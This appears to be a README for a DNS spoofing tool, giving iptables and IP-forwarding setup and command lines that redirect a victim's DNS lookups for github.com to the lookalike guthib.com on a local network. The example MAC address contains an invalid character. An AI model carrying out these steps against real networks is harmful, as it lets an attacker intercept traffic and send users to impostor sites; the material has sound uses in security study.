 # DNS Spoofer

## How to run

### 1. Enable ip forwarding

```sh
echo "1" > /proc/sys/net/ipv4/ip_forward
```

### 2. Add routing via iptables

These commands will make that all packets are passed to the router except for DNS requests.

```sh
sudo iptables -t filter -A FORWARD -p udp --dport 53 -j DROP
sudo iptables -t nat -A POSTROUTING -o wlo1 -p udp --sport 53 -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o wlo1 -j MASQUERADE
```

### 3. Compile

```sh
make
```

### 4. Run

```sh
sudo ./dns_spoofer INTERFACE_NAME GATEWAY_IP_ADDR WEBSITE_ADDR REDIRECT_IP_ADDR VICTIMS_MAC
```

If you are not sure which interface to use, run "ip a" and look for the one that has "state UP".
To get victim's mac address, run "arp-scan --localnet".

#### Example:

If your interface is wlo1, your gateway is 192.168.0.1 and victim's MAC is a8:44:12:13:g2:1b then you can run the following command:

```sh
sudo ./dns_spoofer wlo1 192.168.0.1 github.com guthib.com a8:44:12:13:g2:1b
```

This will make it so that all DNS requests asking for github.com will instead respond with ip addres of guthib.com.
